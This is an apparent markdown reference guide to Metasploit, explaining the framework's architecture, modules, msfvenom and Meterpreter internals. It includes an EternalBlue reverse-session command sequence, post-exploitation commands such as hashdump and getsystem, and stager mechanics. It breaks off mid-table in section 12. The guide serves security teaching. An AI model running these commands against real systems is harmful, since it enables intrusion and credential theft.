

# Metasploit Framework — Complete Technical Architecture & Security Tool Guide

> **Target Audience:** Security Engineers, Exploit Developers, Red/Purple Teams, Vulnerability Researchers, and SOC Detection Engineers.
>
> **Technical Scope:** Metasploit Framework Internal Architecture, Ruby Engine State Machine, Rex Library Primitives, 7 Module Subsystems (Auxiliary, Exploits, Payloads, Post, Encoders, NOPs, Evasion), `msfconsole` Command Subsystem, `msfvenom` Payload Generation & Binary Assembly, Meterpreter TLV Protocol & In-Memory Reflective DLL Injection, PostgreSQL Relational Database Subsystem, Cross-Domain Tool Applications Across 12 Cybersecurity Domains, and SOC/EDR Telemetry Forensics (Sysmon Event IDs 1, 3, 7, 10, Sigma, and Splunk SPL).
>
> **Classification:** Technical Reference Manual & Systems Architecture Guide.

---

<div align="center">

<p align="center">
  
</p>


# ⚔️ Metasploit Framework: Technical Tool Architecture & Systems Guide ⚔️
### Internal Component Stack • Modular Subsystems • Payload Engine • Multi-Domain Security Applications

[](https://www.metasploit.com/)
[](https://github.com/rapid7/metasploit-framework)
[](https://docs.metasploit.com/)
[](https://github.com/rapid7/metasploit-framework/blob/master/COPYING)
[](https://github.com/sivaoffl04/Cyber-Blog)

</div>

---

### 💻 Real-Time Terminal Session & Component Execution

The animated demonstration below illustrates the internal execution lifecycle inside `msfconsole`: module resolution, parameter validation, target fingerprinting via auxiliary SMB scanners, non-destructive `check` routine execution, staged Meterpreter payload delivery, and blue-team SIEM telemetry capture:


---

# 📋 Table of Contents

1. [What Exactly is the Metasploit Framework?](#1-what-exactly-is-the-metasploit-framework)
2. [Internal Systems Architecture & Execution Lifecycle](#2-internal-systems-architecture--execution-lifecycle)
3. [The Seven Module Families: Deep Technical Breakdown](#3-the-seven-module-families-deep-technical-breakdown)
4. [The `msfconsole` Command & Navigation Engine](#4-the-msfconsole-command--navigation-engine)
5. [`msfvenom`: Standalone Payload Generation & Formatting](#5-msfvenom-standalone-payload-generation--formatting)
6. [Meterpreter: The In-Memory Runtime & Protocol Architecture](#6-meterpreter-the-in-memory-runtime--protocol-architecture)
7. [Database Subsystem, Workspaces, Hosts & Services](#7-database-subsystem-workspaces-hosts--services)
8. [Web Application Security: HTTP Mixins & Flaw Verification](#8-web-application-security-http-mixins--flaw-verification)
9. [Network Security & Protocol Modules: Raw Socket Engine](#9-network-security--protocol-modules-raw-socket-engine)
10. [Windows Security & OS Internals: Win32/64 Primitives](#10-windows-security--os-internals-win3264-primitives)
11. [Linux & Unix Security: POSIX, SUID & Kernel Interfaces](#11-linux--unix-security-posix-suid--kernel-interfaces)
12. [Active Directory & Identity Security: Kerberos, LDAP & RPC](#12-active-directory--identity-security-kerberos-ldap--rpc)
13. [Wireless Security: Context, Service Testing & Boundaries](#13-wireless-security-context-service-testing--boundaries)
14. [Cloud Security: Workloads, IMDS Metadata & API Flaws](#14-cloud-security-workloads-imds-metadata--api-flaws)
15. [Containers & DevSecOps: Exposed Daemons & Namespaces](#15-containers--devsecops-exposed-daemons--namespaces)
16. [IoT & Embedded Devices: Cross-Architecture Exploit Execution](#16-iot--embedded-devices-cross-architecture-exploit-execution)
17. [Mobile Security: Android Runtime (ART/Dalvik) & iOS Scope](#17-mobile-security-android-runtime-artdalvik--ios-scope)
18. [Exploit Development & Module Authoring: Ruby Class Anatomy](#18-exploit-development--module-authoring-ruby-class-anatomy)
19. [SOC, EDR Telemetry & Purple-Team Operations](#19-soc-edr-telemetry--purple-team-operations)
20. [Plugins & Framework Extensibility](#20-plugins--framework-extensibility)
21. [Source Code Repository Structure & Module Tree](#21-source-code-repository-structure--module-tree)
22. [Comprehensive Command Reference Matrix](#22-comprehensive-command-reference-matrix)
23. [Architectural Boundaries & Technical Limitations](#23-architectural-boundaries--technical-limitations)
24. [Official Authoritative Documentation & Source Repositories](#24-official-authoritative-documentation--source-repositories)

---

# 1. What Exactly is the Metasploit Framework?

The **Metasploit Framework (MSF)** is an open-source, modular security testing and exploit execution platform maintained by **Rapid7** and an international research community. Written predominantly in **Ruby**, with performance-sensitive payload stagers authored in x86/x64 Assembly and C, Metasploit is not a single point-and-click hacking tool, nor is it an automated vulnerability scanner. It is an **extensible software development framework and execution runtime** that standardizes the authoring, testing, and execution of vulnerability verification code.

Prior to Metasploit, exploit code was distributed as fragmented, standalone C scripts, Python scripts, or Perl snippets. Each exploit handled network sockets differently, implemented custom shellcode encoders, lacked standardized payload delivery, and risked crashing target processes through uncalibrated memory offsets. Metasploit revolutionized the industry by abstracting the components of exploit engineering into reusable, object-oriented software libraries:

```text
====================================================================================================
                        METASPLOIT FRAMEWORK CORE CAPABILITY TAXONOMY
====================================================================================================
 1. Module Discovery & Dynamic Loading   • On-demand instantiation of Ruby classes from disk into memory.
 2. Protocol & Service Client Libraries  • Low-level Rex abstractions for HTTP, SMB, DCERPC, LDAP, SSH, etc.
 3. Payload Assembly & Linking Engine    • Dynamic compilation of stagers, stages, and shellcode buffers.
 4. Interactive Session Management       • Multi-channel command shells, Meterpreter runtimes, and background jobs.
 5. Relational Assessment Database       • PostgreSQL storage of hosts, ports, services, credentials, and loot.
 6. Exploit Development Support Suite    • Cyclic pattern generators, memory offset calculators, and bad-char filters.
====================================================================================================
```

### Official Authoritative Resources
* **Official Website:** [https://www.metasploit.com](https://www.metasploit.com/)
* **GitHub Source Code:** [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
* **Official Documentation Portal:** [https://docs.metasploit.com](https://docs.metasploit.com/)
* **Module Documentation & Search:** [https://docs.rapid7.com/metasploit/modules/](https://docs.rapid7.com/metasploit/modules/)
* **Rapid7 Security Learning Portal:** [https://www.rapid7.com/fundamentals/metasploit/](https://www.rapid7.com/fundamentals/metasploit/)

---

# 2. Internal Systems Architecture & Execution Lifecycle

The Metasploit Framework operates as a layered software architecture designed for separation of concerns between low-level network primitives, core module logic, user interfaces, and session handlers:

<div align="center">


</div>



### 2.1 The Architectural Tiers
1. **Rex (Ruby Extension Library - `lib/rex/`):**
   - The foundation of Metasploit. Rex contains zero exploit logic. Instead, it provides low-level abstractions including network socket wrappers (`Rex::Socket`), protocol client implementations (`Rex::Proto::Http`, `Rex::Proto::Smb`, `Rex::Proto::DCERPC`), binary format parsers (`Rex::PeParer::PE`, `Rex::ElfParser::ELF`), and encoding routines.
2. **MSF Core (`lib/msf/core/`):**
   - The engine of the framework. MSF Core manages the lifecycle of all modules, handles event routing, provides the datastore system for option configuration, links payloads to stagers, and controls runtime sessions.
3. **MSF Base (`lib/msf/base/`):**
   - The interface binding tier. It wraps MSF Core into friendly interfaces suitable for consumption by user interfaces, managing tab completion, readline interaction, and database transactions.
4. **User Interfaces:**
   - `msfconsole`: The primary, fully featured terminal REPL.
   - `msfvenom`: The standalone command-line payload generation and encoding utility.
   - `msfrpcd`: The daemon providing JSON-RPC and MessagePack endpoints for automated integration with vulnerability management solutions.

### 2.2 The Internal Execution Sequence

When an operator executes `run` or `exploit` inside `msfconsole`, the framework transitions through a rigorous, seven-stage state machine:

```text
[Operator Issues 'run']
        │
        ▼
┌─────────────────────────────────┐
│ 1. Module Resolution & Loading  │ ➔ Loads Ruby class from disk/cache into ObjectSpace.
└─────────────────────────────────┘
        │
        ▼
┌─────────────────────────────────┐
│ 2. Datastore & Option Parsing   │ ➔ Merges local datastore, global datastore (setg), and defaults.
└─────────────────────────────────┘
        │
        ▼
┌─────────────────────────────────┐
│ 3. Pre-Flight Validation        │ ➔ Validates required parameters (RHOSTS, RPORT, LHOST, LPORT).
└─────────────────────────────────┘
        │
        ▼
┌─────────────────────────────────┐
│ 4. Protocol Stack Setup (Rex)   │ ➔ Instantiates socket mixin (e.g., Rex::Socket::Tcp or HttpClient).
└─────────────────────────────────┘
        │
        ▼
┌─────────────────────────────────┐
│ 5. Execution Dispatch           │ ➔ Calls module's `run` (Auxiliary) or `exploit` (Exploit) method.
└─────────────────────────────────┘
        │
        ▼
┌─────────────────────────────────┐
│ 6. Payload Handshake & Delivery │ ➔ Exploit delivers stager; MSF Handler receives reverse connection.
└─────────────────────────────────┘
        │
        ▼
┌─────────────────────────────────┐
│ 7. Session Creation & DB Update │ ➔ Spawns Meterpreter/Shell session; records host/service in PostgreSQL.
└─────────────────────────────────┘
```

---

# 3. The Seven Module Families: Deep Technical Breakdown

Metasploit organizes all capabilities into seven distinct module categories stored under the `modules/` root directory. Each module is implemented as a standalone Ruby class that inherits from framework base classes.

```text
modules/
├── auxiliary/     # Protocol interaction, scanning, enumeration, fuzzing (No shell)
├── exploits/      # Vulnerability trigger logic designed to redirect code execution
├── payloads/      # Code executed on the target upon successful code execution
│   ├── singles/   # Monolithic, self-contained inline payloads
│   ├── stagers/   # Small initial network loaders that establish connection and retrieve stage
│   └── stages/    # Full-featured payload binaries (e.g., Meterpreter DLL, VNC, shell)
├── post/          # Post-exploitation modules executed within an established session
├── encoders/      # Payload transformers to eliminate bad characters (e.g., NULL bytes)
├── nops/          # Architecture-specific No-Operation sled generators for memory alignment
└── evasion/       # Specialized modules designed to modify payload structure against AV/EDR
```

---

### 3.1 Auxiliary Modules (`modules/auxiliary/`)
Auxiliary modules do not deploy payloads or generate interactive shells. They are designed for protocol reconnaissance, fingerprinting, denial of service, fuzzing, and credential verification.

* **Class Hierarchy:** Inherits from `Msf::Auxiliary`.
* **Primary Mixins:** Includes protocol mixins such as `Msf::Exploit::Remote::HttpClient`, `Msf::Exploit::Remote::SMB::Client`, or `Msf::Auxiliary::Scanner`.
* **Execution Entry Point:** Defines a `run` or `run_host(ip)` method.
* **Key Subcategories:**
  - `auxiliary/scanner/`: Multi-threaded network scanners (portscan, smb, ssh, http, snmp).
  - `auxiliary/admin/`: Administrative actions against misconfigured services (e.g., querying databases).
  - `auxiliary/fuzzers/`: Protocol fuzzers for vulnerability discovery.
  - `auxiliary/dos/`: Denial-of-service verification modules.

---

### 3.2 Exploit Modules (`modules/exploits/`)
Exploit modules contain code specifically designed to target a vulnerability (memory corruption, command injection, deserialization, authentication bypass) in an application, service, or operating system to redirect execution flow.

* **Class Hierarchy:** Inherits from `Msf::Exploit::Remote` or `Msf::Exploit::Local`.
* **Execution Entry Point:** Defines an `exploit` method, and ideally a `check` method for non-destructive vulnerability verification.
* **Exploit Ranking Matrix:**
  Each exploit is assigned an official reliability rank indicating its stability and risk of crashing the target process:

| Rank | Reliability & Target Impact | Module Behavior |
| :--- | :--- | :--- |
| **Manual** | Unstable / Volatile | Requires manual configuration, unstable, or causes target crash. |
| **Low** | Low (< 50% success) | Fails frequently, targets specific unverified configurations. |
| **Average** | Medium (~ 50% success) | Common for specific service versions; may crash target on failure. |
| **Normal** | Reliable | Reliably exploits the vulnerability when the target service matches. |
| **Good** | High Reliability | Automatic detection of target software/version; low crash risk. |
| **Great** | Exceptional | Auto-targets and has a reliable return address or application flaw. |
| **Excellent** | Flawless / Safe | Memory-safe exploits (command injection, SQLi, traversal) with 0% crash risk. |

---

### 3.3 Payloads (`modules/payloads/`)
Payloads determine what executes on the target system once code execution is achieved. Metasploit categorizes payloads into three technical components:

1. **Singles (Inline / Non-Staged):**
   - Completely self-contained shellcode blobs. They contain both the communication logic and the execution payload in a single package.
   - *Naming convention:* Single slash separating platform and payload (e.g., `windows/x64/shell_reverse_tcp`, `linux/x64/shell_bind_tcp`).
   - *Advantages:* Reliable in restricted network environments where secondary stage downloading is blocked by firewalls or proxies.
2. **Stagers:**
   - Ultra-compact shellcode (typically 100–400 bytes) whose sole purpose is to establish a network connection (TCP, HTTP, HTTPS) back to the attacker's handler, allocate an executable memory buffer, download the larger payload stage, and jump execution into it.
   - *Naming convention:* Slashes separating components (e.g., `windows/x64/meterpreter/reverse_tcp`).
3. **Stages:**
   - The large, sophisticated payloads delivered by stagers. Examples include the reflective Meterpreter DLL (`metsrv.dll`), VNC injection servers, or command shell binaries.

---

### 3.4 Post-Exploitation Modules (`modules/post/`)
Post modules operate entirely within an active, established session (Meterpreter or native shell). They automate deep OS enumeration, credential dumping, persistence installation, and local privilege escalation checks.

* **Class Hierarchy:** Inherits from `Msf::Post`.
* **Session Requirements:** Requires the `SESSION` option to be set to a valid session ID.
* **Capabilities:** Process migration, SAM/NTDS extraction, registry auditing, Linux `/etc/shadow` gathering, and network interface enumeration.

---

### 3.5 Encoders (`modules/encoders/`)
Encoders are algorithmic byte transformers. They take raw shellcode and re-encode its instructions to satisfy strict exploit constraints—most notably the **removal of bad characters** (such as NULL bytes `\x00` in string buffer overflows, or carriage returns `\x0d\x0a` in HTTP headers).

> [!WARNING]
> **Defensive Reality:** Encoders (such as `x86/shikata_ga_nai`) are **NOT** modern antivirus or EDR evasion tools. The decoder stub prepended to the payload has static, well-known assembly instruction sequences that modern signature and heuristic scanners instantly identify. Encoders exist strictly for **transport compatibility and bad-character elimination**.

---

### 3.6 NOP Generators (`modules/nops/`)
NOP (No-Operation) generators produce architecture-specific sequences of non-disruptive instructions (e.g., `0x90` in x86). In memory-corruption exploits (such as stack buffer overflows), NOP sleds provide a landing zone for execution redirection, accommodating minor pointer variations caused by environment variable shifts or stack alignment.

---

### 3.7 Evasion Modules (`modules/evasion/`)
Introduced in Metasploit 5, evasion modules generate executable files (`.exe`, `.dll`) designed to test the efficacy of defensive controls. They apply techniques such as API obfuscation, sleep timing tricks, and process hollowing to test how endpoint protection products react in controlled lab environments.

---

# 4. The `msfconsole` Command & Navigation Engine

The `msfconsole` interface is an interactive Readline-based terminal environment. Its prompt dynamically shifts state to reflect the active module, workspace, or session context.

```text
msf6 >                                                 # Global framework context
msf6 > use auxiliary/scanner/smb/smb_version           # Module selection
msf6 auxiliary(scanner/smb/smb_version) >              # Active module context
```

### 4.1 Module Search & Filtering Syntax
Metasploit contains thousands of modules. Efficient navigation requires multi-parameter filtering:

```bash
# Search by module type and protocol
search type:auxiliary name:smb

# Search by specific CVE identifier
search cve:2020-0796

# Multi-criteria search: Linux remote exploit with high reliability
search type:exploit platform:linux rank:excellent

# Search modules supporting non-destructive vulnerability verification
search check:true type:exploit name:apache
```

### 4.2 Module Configuration & Execution Lifecycle
```bash
# 1. Select the module
use exploit/windows/smb/ms17_010_eternalblue

# 2. Inspect module metadata and requirements
info

# 3. View mandatory and optional parameters
show options

# 4. View advanced low-level engine parameters (timeouts, Rex socket options)
show advanced

# 5. Identify missing required parameters
show missing

# 6. Configure parameters
set RHOSTS 192.168.1.50
set LHOST 192.168.1.10
set LPORT 4444

# 7. Global parameter setting (persists across all module selections)
setg RHOSTS 192.168.1.50

# 8. Non-destructive vulnerability verification (if supported)
check

# 9. Execute module (in foreground or background)
exploit           # Run in foreground
exploit -j        # Run as background job
```

### 4.3 Background Jobs vs. Interactive Sessions
* **Jobs (`jobs`):** Represents background tasks running inside the framework process (e.g., multi-handler listeners, long-running port scans).
  ```bash
  jobs -l        # List active background jobs
  jobs -i 0      # Inspect job ID 0
  jobs -k 0      # Terminate (kill) job ID 0
  ```
* **Sessions (`sessions`):** Represents established communication channels with remote targets (Meterpreter or command shells).
  ```bash
  sessions -l         # List active sessions
  sessions -i 1       # Interact with session ID 1
  sessions -u 1       # Upgrade a raw command shell session 1 to Meterpreter
  sessions -K         # Terminate all active sessions
  ```

---

# 5. `msfvenom`: Standalone Payload Generation & Formatting

`msfvenom` is the dedicated CLI payload generator distributed with Metasploit. It replaced the legacy `msfpayload` and `msfencode` utilities, merging payload assembly, bad character filtering, and multi-format compilation into a unified tool.

```text
====================================================================================================
                                MSFVENOM COMMAND LINE PARAMETERS
====================================================================================================
 -p, --payload <name>       Select payload (e.g., windows/x64/meterpreter/reverse_tcp)
 -l, --list [type]          List payloads, encoders, nops, platforms, or formats
 -f, --format <format>      Output format: Executables (exe, elf, macho) or Transforms (c, py, ps1)
 -a, --arch <arch>          Target CPU architecture (x86, x64, armle, mipsbe)
 --platform <platform>      Target operating system (windows, linux, osx, android)
 -b, --bad-chars <chars>    Byte values to filter out (e.g., '\x00\x0a\x0d')
 -e, --encoder <name>       Encoder module (e.g., x86/shikata_ga_nai, x64/zutto_dekiru)
 -i, --iterations <count>   Number of encoding passes
 -s, --space <bytes>        Maximum payload size constraint for memory buffers
 -o, --out <file>           Output destination file path
====================================================================================================
```

### 5.1 Staged vs. Stageless Payload Architecture

```text
STAGED PAYLOAD ARCHITECTURE (windows/x64/meterpreter/reverse_tcp)
Target Memory:     [Small Stager (~350B)] ──(Connects)──> [Metasploit Handler]
                                                                  │
                                                (Transmits metsrv.dll stage)
                                                                  ▼
                   [In-Memory Reflective DLL Injection Execution]

STAGELESS PAYLOAD ARCHITECTURE (windows/x64/meterpreter_reverse_tcp)
Target Memory:     [Monolithic Binary (~5MB): Stager + metsrv.dll + stdapi]
                   (Executes directly; zero secondary network payload dependency)
```

### 5.2 Low-Level Stager Assembly Mechanics (x86/x64)

The initial stager shellcode generated by `msfvenom` performs a low-level sequence of raw Win32 API calls via direct Dynamic Link Library traversal:
1. **Find TEB / PEB:** Traverses the Thread Environment Block (`FS:[0x30]` on x86, `GS:[0x60]` on x64) to locate the Process Environment Block.
2. **Locate `kernel32.dll` and `ws2_32.dll`:** Resolves exported function hashes (`LoadLibraryA`, `GetProcAddress`, `VirtualAlloc`, `WSAStartup`, `WSASocketA`, `WSAConnect`).
3. **Establish TCP Socket:** Initiates a three-way handshake back to `LHOST:LPORT`.
4. **Allocate Executable Memory:** Calls `VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE)`.
5. **Receive Stage:** Calls `recv()` in a loop, writing the incoming `metsrv.dll` stage directly into the allocated memory block.
6. **Transfer Control:** Executes a `jmp` or `call` instruction directly to the entry point of the downloaded stage.

---

# 6. Meterpreter: The In-Memory Runtime & Protocol Architecture

**Meterpreter (Meta-Interpreter)** is an advanced, post-exploitation runtime designed specifically for security assessments. Unlike a standard OS command shell (`cmd.exe` or `/bin/sh`), Meterpreter executes entirely within the target's RAM using **Reflective DLL Injection (RDI)** and communicates via an encrypted binary protocol.

```text
+-----------------------+                         +-----------------------+
|  MSFCONSOLE (CLIENT)  |                         |  TARGET HOST (SERVER) |
|                       |                         |                       |
|   Meterpreter Client  |                         |    Active Process     |
|   Extension Parser    |                         |  (e.g., spoolsv.exe)  |
|           │           |                         |           │           |
|           ▼           |                         |           ▼           |
|     TLV Packets       | ──(Encrypted TLS/TCP)──>|   metsrv.dll (Core)   |
|   (Type-Length-Value) | <────────────────────── |    stdapi.dll         |
|                       |                         |    priv.dll           |
+-----------------------+                         +-----------------------+
```

### 6.1 Reflective DLL Injection (RDI)
Meterpreter never touches the target disk during execution:
1. The stager allocates memory via `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions.
2. The reflective loader (`metsrv.dll`) writes its PE headers and sections into the allocated memory.
3. The reflective loader manually resolves its own Import Address Table (IAT) by calling `LoadLibraryA` and `GetProcAddress` internally.
4. It calls its own `DllMain` entry point (`DLL_PROCESS_ATTACH`), initializing the Meterpreter runtime engine.

### 6.2 The TLV (Type-Length-Value) Wire Protocol
Meterpreter communication does not use plain ASCII strings. All commands and data are serialized into binary **TLV (Type-Length-Value)** packets:

```text
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                         Length (32-bit)                       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                          Type (32-bit)                        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                         Value (Variable)                      |
|                               ...                             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

* **Length (4 Bytes):** Big-endian integer defining the total size of the TLV record (Length + Type + Value).
* **Type (4 Bytes):** Bitmask specifying data type (`TLV_TYPE_STRING`, `TLV_TYPE_UINT`, `TLV_TYPE_RAW`, `TLV_TYPE_GROUP`) and message identifier.
* **Value (Variable):** Raw payload data, command parameters, or nested child TLV packets.

### 6.3 Core Architecture vs. Dynamic Extensions
Meterpreter maintains a minimal initial core footprint and dynamically loads extension DLLs into memory on demand:

| Extension DLL | Functionality & Capabilities |
| :--- | :--- |
| **`metsrv.dll`** | Core engine; socket communication, TLV parsing, extension loader. |
| **`stdapi.dll`** | Standard API; filesystem manipulation, process control, network sockets, webcam/mic. |
| **`priv.dll`** | Windows privilege operations; hash dumping, token stealing, elevation (`getsystem`). |
| **`kiwi.dll`** | Native in-memory Mimikatz integration; Kerberos tickets, cleartext passwords, PINs. |
| **`extapi.dll`** | Extended API; clipboard snooping, AD queries, service management, WMI queries. |
| **`sniffer.dll`** | In-memory packet sniffer; captures remote network interface traffic to PCAP files. |

### 6.4 Meterpreter vs. Conventional OS Shell

| Property | Conventional OS Shell (`cmd.exe` / `/bin/bash`) | Meterpreter Session |
| :--- | :--- | :--- |
| **Process Footprint** | Spawns a new native OS process (`cmd.exe`). | Injects DLL into an existing process memory space. |
| **Disk Forensics** | Triggers process creation binaries on disk. | 100% in-memory; zero disk writes. |
| **Communication** | Raw ASCII stdin/stdout data streams. | Encrypted, binary-multiplexed TLV packets. |
| **Extensibility** | Limited to OS binaries present on target. | Dynamically loads in-memory DLL plugins (`kiwi`, `priv`). |
| **Pivoting Support** | Requires manual proxy tools (Chisel, SSH). | Native routing (`route add`) and in-framework SOCKS proxy. |

---

# 7. Database Subsystem, Workspaces, Hosts & Services

Metasploit integrates natively with a **PostgreSQL** relational database. This transforms the framework from a single-target exploit runner into an organized assessment datastore capable of tracking enterprise reconnaissance data across thousands of systems.

```text
                                  POSTGRESQL DATABASE
                                           │
         ┌───────────────────┬─────────────┴──────┬───────────────────┐
         ▼                   ▼                    ▼                   ▼
    hosts Table        services Table        vulns Table         creds Table
   (IP, MAC, OS)      (Port, Proto, State)  (CVE, Name, Ref)   (User, Pass, Hash)
```

### 7.1 Database Initialization & Connection
```bash
# Check current database connectivity status
db_status

# If disconnected, connect using database configuration
db_connect msf_user:msf_password@127.0.0.1:5432/msf_database
```

### 7.2 Workspaces: Logical Assessment Segregation
Workspaces provide isolated project environments within the same database, preventing target data from cross-contaminating different engagements:
```bash
workspace           # List all existing workspaces (* marks active)
workspace -a Alpha  # Create and switch to workspace 'Alpha'
workspace Bravo     # Switch context to workspace 'Bravo'
workspace -d Alpha  # Delete workspace 'Alpha'
```

### 7.3 Data Ingestion & Querying
Metasploit allows direct Nmap scanning through the database wrapper, automatically parsing and categorizing target assets:
```bash
# Execute Nmap and directly ingest results into PostgreSQL tables
db_nmap -sS -sV -O 192.168.1.0/24

# Query discovered hosts
hosts -c address,os_name,os_flavor

# Query discovered services across all hosts
services -p 445 --open

# View captured credentials (plaintext passwords and NTLM hashes)
creds

# View operational loot (downloaded SAM files, /etc/shadow, configs)
loot
```

---

# 8. Web Application Security: HTTP Mixins & Flaw Verification

While specialized web application proxies (such as Burp Suite and OWASP ZAP) dominate web logic testing, Metasploit provides powerful HTTP client libraries for automated vulnerability verification, server header parsing, and directory enumeration.

### 8.1 The `HttpClient` Mixin Architecture
Metasploit exploit and auxiliary modules interact with web applications by including the `Msf::Exploit::Remote::HttpClient` mixin. This mixin provides:
* Automatic SSL/TLS negotiation (`SSL` option).
* Automated session cookie management across successive requests.
* Standardized User-Agent spoofing.
* Header parsing, redirect handling, and basic authentication wrappers.

### 8.2 Source Code Analysis: `auxiliary/scanner/http/title.rb`
The following excerpt demonstrates how Metasploit implements clean HTTP interactions in Ruby:

```ruby
class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Auxiliary::Scanner

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name'        => 'HTTP HTML Title Tag Content Grabber',
        'Description' => 'Harvests webpage titles from remote web servers.',
        'Author'      => [ 'corelanc0d3r', 'hdm' ],
        'License'     => MSF_LICENSE
      )
    )
    register_options([
      OptString.new('TARGETURI', [ true, 'The base path to query', '/' ])
    ])
  end

  def run_host(target_host)
    res = send_request_cgi({
      'uri'    => normalize_uri(target_uri.path),
      'method' => 'GET'
    })

    return unless res && res.code == 200

    if res.body =~ /<title>(.*?)<\/title>/im
      title = Regexp.last_match(1).strip
      print_good("#{target_host}:#{rport} Title: '#{title}'")
      report_note(
        host: target_host,
        port: rport,
        type: 'http.title',
        data: title
      )
    end
  end
end
```

### 8.3 Metasploit vs. Dedicated Web Proxies

```text
====================================================================================================
                        WEB SECURITY WORKFLOW SPECIALIZATION
====================================================================================================
 TOOL                 PRIMARY ROLE                        WHEN TO USE
────────────────────────────────────────────────────────────────────────────────────────────────────
 Burp Suite / ZAP     Interactive Proxy & Logic Analysis  • Business logic flaws, auth bypass, CSRF,
                                                          • Session tokens, fine-grained payload testing.
 Metasploit           Automated Exploit & Verification    • Known CVE RCE verification (Log4Shell),
                                                          • Shell delivery, web server memory corruption.
====================================================================================================
```

---

# 9. Network Security & Protocol Modules: Raw Socket Engine

Metasploit's auxiliary scanner engine provides comprehensive protocol interaction capabilities built directly upon the Rex raw socket library.

### 9.1 Network Protocol Scanners
Unlike basic port scanners that simply record open TCP ports, Metasploit auxiliary scanners complete protocol handshakes to extract metadata, software versions, and security configurations:
* **SMB (`auxiliary/scanner/smb/smb_version`):** Queries native OS build numbers, domain membership, and SMBv1/v2/v3 support.
* **SSH (`auxiliary/scanner/ssh/ssh_version`):** Extracts daemon banners and verifies supported cipher suites.
* **MSSQL (`auxiliary/scanner/mssql/mssql_ping`):** Probes UDP 1434 to locate hidden SQL instances and named pipes.
* **SNMP (`auxiliary/scanner/snmp/snmp_enum`):** Enumerates system uptime, active network connections, and interfaces using community strings.

### 9.2 Operational Precautions for Network Scanners
1. **Authentication Lockout Risks:** Running brute-force modules (`auxiliary/scanner/ssh/ssh_login`) without calibrating `STOP_ON_SUCCESS` or thread rates can trigger domain-wide account lockouts.
2. **Crash Volatility:** Scanning legacy industrial or embedded network services with malformed packets can cause unrecoverable service crashes. Always verify target stability in a lab.

---

# 10. Windows Security & OS Internals: Win32/64 Primitives

Metasploit includes extensive Windows-specific exploit modules, payloads, and post-exploitation tools. Mastering Windows testing requires understanding how the framework interfaces with the Windows kernel and subsystem APIs.

```text
+───────────────────────────────────────────────────────────────────────────────+
|                           WINDOWS SECURITY BOUNDARIES                         |
+───────────────────────────────────────────────────────────────────────────────+
| User-Mode Process (e.g., explorer.exe)                                        |
|   └── Thread Injection: VirtualAllocEx ➔ WriteProcessMemory ➔ CreateRemoteThread|
+───────────────────────────────────────────────────────────────────────────────+
| Security Architecture Mitigations:                                            |
|   • AMSI (Antimalware Scan Interface)    • DEP (Data Execution Prevention)    |
|   • ASLR (Address Space Layout Random.)  • CFG (Control Flow Guard)           |
|   • Credential Guard (Virtual Secure M.) • LSA Protection (RunAsPPL)          |
+───────────────────────────────────────────────────────────────────────────────+
```

### 10.1 Privilege Escalation & Context Transitions
Obtaining code execution does not equate to system administrative control:
* **User Context (`Medium Integrity`):** Limited access; restricted from modifying system binaries or reading raw process memory.
* **Administrator Context (`High Integrity`):** Elevated local privileges; can bypass UAC or load drivers if configured.
* **SYSTEM Context (`NT AUTHORITY\SYSTEM`):** The highest operating system context; required for interacting with LSASS memory, SAM registries, and service control managers.

### 10.2 Metasploit Windows Post-Exploitation Commands
```bash
getuid                  # Query current user security identifier (SID) and username
sysinfo                 # Display Windows OS build, architecture, and computer name
getsystem               # Attempt automated SYSTEM elevation via named-pipe impersonation
ps                      # List all running processes, PIDs, architectures, and session owners
migrate <PID>           # Migrate Meterpreter DLL into another running process memory space
hashdump                # Extract local SAM database password hashes (NTLM)
```

---

# 11. Linux & Unix Security: POSIX, SUID & Kernel Interfaces

Linux and Unix modules target POSIX-compliant services, daemons, and kernel subsystems across various distributions (Ubuntu, Debian, RHEL, CentOS) and CPU architectures (x86, x64, ARM, MIPS).

### 11.1 Key Technical Considerations
* **Kernel & Distribution Sensitivity:** Exploit reliability depends heavily on the specific Linux kernel build, glibc version, and compiler flags. An exploit functional on Debian 10 may fail completely on Ubuntu 20.04 due to memory offset variations.
* **SUID/SGID Binaries:** Local privilege escalation modules frequently audit binaries with the Set-User-ID bit enabled, allowing low-privilege users to execute code with root permissions.
* **Modern Linux Mitigations:** Modern distributions enforce ASLR via `/proc/sys/kernel/randomize_va_space`, GCC stack canaries (`-fstack-protector`), non-executable stacks (`NX`), AppArmor profiles, and SELinux mandatory access controls.

---

# 12. Active Directory & Identity Security: Kerberos, LDAP & RPC

Metasploit provides targeted modules for Windows domain services, but it is critical to understand its technical scope in relation to specialized identity tools:

```text
====================================================================================================
                        ACTIVE DIRECTORY TOOLING SPECIALIZATION MATRIX
====================================================================================================
 TOOL           PRIMARY TECHNICAL FOCUS
────────────────────────────────────────────────────────────────────────────────────────────────────
 Metasploit     • Service vulnerability verification (EternalBlue, ZeroLogon).
                • In-memory ticket extraction via Kiwi / Mimikatz integration.
 Impacket       • Python network protocol implementations (SMB, MSRPC, Kerberos).
                • Targeted tradecraft (secretsdump.py, GetUserSPNs.py, wmiexec.py).
